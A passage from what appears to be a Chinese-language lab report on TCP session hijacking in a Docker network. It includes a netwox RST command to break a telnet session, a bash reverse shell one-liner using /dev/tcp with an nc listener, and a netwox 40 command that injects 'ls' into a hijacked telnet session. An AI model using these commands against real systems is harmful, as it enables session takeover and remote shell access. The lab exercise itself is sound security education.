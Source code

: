 会话劫持之后客户端可能无响应，此时最好用任务2的RST打断telnet会话，这样就不用新建客户端bash。

打断方式：

```bash
sudo netwox 78 -d docker0
```

## 反弹shell

客户端：`nc -lvp 4567`

服务端：

```bash
/bin/bash -i >/dev/tcp/172.17.0.1/4567 # 默认描述符1是标准输出，意思是把当前的bash的输出全部重定向到172.17.0.1:4567中
```

除了标准输出，还可以把标准输入(0)定向过来、错误输出(2)定向过去。总得来说，指令如下：

```bash
/bin/bash -i >/dev/tcp/172.17.0.1/4567 2>&1 0<&1
```

<div STYLE="page-break-after: always;"></div>

# 任务 3,4 : 使用 TCP 会话劫持注入普通命令、创建反向 shell

## 攻击过程

注：我认为 hijacking_auto.py 是 hijacking_manual.py 的拓展，而且netwox的过程和手动攻击基本一致，没有必要重复展示手动攻击的效果，因此实施scapy攻击时只描述自动攻击及其脚本。

### 注入普通命令"ls\r\n"

#### netwox：

（1）Wireshark截包截图：

下图是最后一个Telnet报文。

关键信息：ip：172.17.0.4→172.17.0.2，port：59366→23，Next SEQ：863211564，ACK：430198591。

![img](https://img-blog.csdnimg.cn/img_convert/28f80319409a92386d19d4e72b6fccc1.png)

（2）攻击命令：`sudo netwox 40 -l 172.17.0.2 -m 172.17.0.4 -p 23 -o 59366 --tcp-seqnum 430198591 --tcp-acknum 863211564 --tcp-data "6c730d00" --tcp-ack`。

注入的内容是"ls\r\n"。

（3）观察和解释：攻击成功。

下图是服务端返回的ls结果，显示了服务器当前目录下的文件和文件夹。

![img](https://img-blog.csdnimg.cn/img_convert/62a05e1a05eac174081553fb52c1fbfe.png)

不过可惜的是，user用户机对服务器的会话被干扰了，不能继续会话，如下图所示。
